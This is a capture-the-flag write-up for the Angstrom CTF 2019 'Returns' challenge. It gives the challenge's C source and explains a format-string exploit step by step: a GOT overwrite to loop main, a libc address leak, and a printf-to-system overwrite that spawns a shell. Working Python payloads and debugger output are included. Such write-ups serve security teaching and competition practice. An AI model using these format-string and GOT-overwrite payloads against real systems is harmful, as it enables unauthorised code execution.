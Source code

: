 # Angstrom CTF 2019
## Returns

> Need to make a return? This program might be able to help you out (source, libc).
> /problems/2019/returns/<br/>
> nc shell.actf.co 19307<br/>
> Author: kmh11

---

### Checksec output
> Arch:     amd64-64-little<br/>
> RELRO:    Partial RELRO<br/>
> Stack:    Canary found<br/>
> NX:       NX enabled<br/>
> PIE:      No PIE (0x400000)

### Given source code
```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	char item[50];
	printf("What item would you like to return? ");
	fgets(item, 50, stdin);
	item[strlen(item)-1] = 0;

	if (strcmp(item, "nothing") == 0) {
		printf("Then why did you even come here? ");
	} else {
		printf("We didn't sell you a ");
		printf(item);
		printf(". You're trying to scam us! We don't even sell ");
		printf(item);
		printf("s. Leave this place and take your ");
		printf(item);
		printf(" with you. ");
	}
	printf("Get out!\n");
	return 0;
}
```

We are given the task's binary, the libc (which happens to be the libc from 
Ubuntu 16.04 Xenial) and... the source code!

This task is almost identical to the angstrom's purchases task except it doesn't have
the `flag` function which gave us the flag. Knowing that, we already know the 
vulnerability - format-string vulnerability.

The plan is to call `system("/bin/sh")`, so we need the libc base address. 
Then, knowing `system` address we want to redirect execution to it and pass
`"/bin/sh"` as an argument.

How do we do it only with one possibility to write to the buffer `item`? 
We could make ourselves a loop.
Luckily the binary has PIE disabled and last `printf` got translated into `puts`.
If we overwrite GOT entry of puts with address right before fgets call we
obtain a loop! Now we can use the format-string vulnerability multiple times.

### Custom loop
From `0x401303` jumping to `0x40122e`.
```
0x40122e <main+136>    mov    rdx, qword ptr [rip + 0x2e4b] <0x404080>
0x401235 <main+143>    lea    rax, [rbp - 0x40]
0x401239 <main+147>    mov    esi, 0x32
0x40123e <main+152>    mov    rdi, rax
0x401241 <main+155>    call   fgets@plt <0x401080>  # fgets(item, 50, stdin);
(...)
0x4012fc <main+342>    lea    rdi, [rip + 0xdcc]
0x401303 <main+349>    call   puts@plt <0x401030>
```

We need only to overwrite last 2 Bytes of the address, because `puts` got entry
already contains similar address.

#### GOT when calling first vulnerable printf for the first time
```
   0x401296 <main+240>    lea    rax, [rbp - 0x40]
   0x40129a <main+244>    mov    rdi, rax
   0x40129d <main+247>    mov    eax, 0
 ► 0x4012a2 <main+252>    call   printf@plt <0x401070>
```
```
pwndbg> got
GOT protection: Partial RELRO | GOT functions: 9
[0x404018] puts@GLIBC_2.2.5 -> 0x401036 (puts@plt+6) ◂— push   0 /* 'h' */
(...)
```

The binary also overwrites byte before first nullbyte with a nullbyte.
Thus we insert dummy `a` right before padding of nullbytes.

#### Payload creating a loop:
```Python
got_puts = 0x404018
before_fgets = 0x40122e

payload = "%018u%12$hhn%028u%13$hhn" # set 40122e
payload += 'a'
payload += '\x00' * (32-len(payload))
payload += p64(got_puts+1)
payload += p64(got_puts)
payload += '\n'
```

#### How to get a libc leak then?
Luckily there is `__libc_start_main+240` address on the stack when calling vulnerable
`printf`.

```
   0x401296 <main+240>    lea    rax, [rbp - 0x40]
   0x40129a <main+244>    mov    rdi, rax
   0x40129d <main+247>    mov    eax, 0
 ► 0x4012a2 <main+252>    call   printf@plt <0x401070>
        format: 0x7fffffffe5f0 ◂— 0x3200007024383125 /* '%18$p' */
        vararg: 0x7fffffffbf48 ◂— "We didn't sell you a 507360000000000000000004158470016 "

pwndbg> stack 20
00:0000│ rsp  0x7fffffffe5d8 —▸ 0x401308 (main+354) ◂— mov    eax, 0
01:0008│      0x7fffffffe5e0 —▸ 0x7ffff7ffe168 ◂— 0x0
02:0010│      0x7fffffffe5e8 ◂— 0xf0b5ff
03:0018│ rdi  0x7fffffffe5f0 ◂— 0x3200007024383125 /* '%18$p' */
04:0020│      0x7fffffffe5f8 ◂— '$hhn%028u%13$hhn'
05:0028│      0x7fffffffe600 ◂— 'u%13$hhn'
06:0030│      0x7fffffffe608 ◂— 0x0
07:0038│      0x7fffffffe610 —▸ 0x404019 (_GLOBAL_OFFSET_TABLE_+25) ◂— 0x2000000000004012
08:0040│      0x7fffffffe618 —▸ 0x404018 (_GLOBAL_OFFSET_TABLE_+24) —▸ 0x40122e (main+136) ◂— mov    rdx, qword ptr [rip + 0x2e4b]
09:0048│      0x7fffffffe620 —▸ 0x7fffffff000a ◂— 0x0
0a:0050│      0x7fffffffe628 ◂— 0xb264bae28067b100
0b:0058│ rbp  0x7fffffffe630 —▸ 0x401330 (__libc_csu_init) ◂— endbr64 
0c:0060│      0x7fffffffe638 —▸ 0x7ffff7a2d830 (__libc_start_main+240) ◂— mov    edi, eax
```

#### Payload leaking libc address:
```Python
payload2 = "%18$p"
payload2 += '\n'

io.send(payload2)
io.recvuntil('sell you a ')
libc_leak_hex_str = io.recvuntil('.') # (__libc_start_main+240) 
print(libc_leak_hex_str[:-1])
libc_start_main_addr_240 = int(libc_leak_hex_str[2:-1], 16)

libc_start_main_addr = libc_start_main_addr_240 - 240
libc_start_main_offset = 0x20740
libc_base_addr = libc_start_main_addr - libc_start_main_offset
libc_system_offset = 0x45390
libc_system_addr = libc_base_addr + libc_system_offset
```

With the libc leak, we calculate libc base address and then the address of a `system`
function. Now, how do we call it with `"/bin/sh"`?
We'll abuse another vulnerable printf call.

With one of the `printf`s we overwrite got entry of `printf` with `system`,
and using another one we call `system("/bin/sh")`.
We need to pass `"/bin/sh"` and rest of the payload at the same time. 
Luckily one can safely spawn shell with `system("/bin/sh;[rest of payload]")`.

Most of the times we'll need to overwrite only last 3 bytes of the address:

```
[0x404038] printf@GLIBC_2.2.5 -> 0x7ffff7a62800 (printf) ◂— sub    rsp, 0xd8
{<text variable, no debug info>} 0x7ffff7a52390 <__libc_system>
```

I couldn't fit the payload overwriting 2 bytes and then 1 byte, so I overwrote
last 4 bytes.

I've also stumbled upon a limit with format-string padding:
```C
unsigned int d = 13378;
printf("aha%02147483614u!", d);    // prints "aha[zeroes]!"
printf("aha%02147483615u!", d);    // prints "aha"
```

Luckily we can execute exploit couple of times until it works.

#### Payload spawning shell:
```Python
got_printf = 0x404038

payload = "/bin/sh;"

# lowest 4B
to_write = libc_system_addr & 0xffffffff
to_write -= len("/bin/sh;")

payload += "%0{}u%14$n".format(to_write)
payload += 'a' # overwritten with NULLBYTE by binary itself
payload += '\x00' * ((8 - len(payload)) % 8)
# aligned to 8B
assert(payload[-1] == '\x00') # at least one NULLBYTE required

payload += p64(got_printf)
payload += '\n'

assert(len(payload) <= 50)
io.send(payload)
```

When we overwrite 4 bytes at the same time, the binary prints massive amount of 
zeroes. Printing them to the console takes ages... but finally spawns our beloved 
shell.

@mzr - justCatTheFish


